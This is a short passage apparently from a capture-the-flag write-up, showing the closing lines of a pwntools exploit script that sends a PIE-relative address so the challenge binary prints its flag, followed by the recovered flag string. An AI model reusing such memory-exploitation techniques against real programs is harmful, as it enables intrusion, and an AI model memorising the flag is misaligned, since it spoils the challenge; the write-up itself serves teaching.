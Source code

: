```python
info("Pie end: %#x", pieend)
io.recvuntil(b'expire\n')

# Send address of label in .data, it will be overwritten with flag
# Then on the next iteration of the loop, it will print
io.sendline(hex(piebase + data_string_offset).encode() + b' 127')

# Flag plz
warning(io.recv().decode())
```

We run the script and get the flag.

Flag:`CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}`
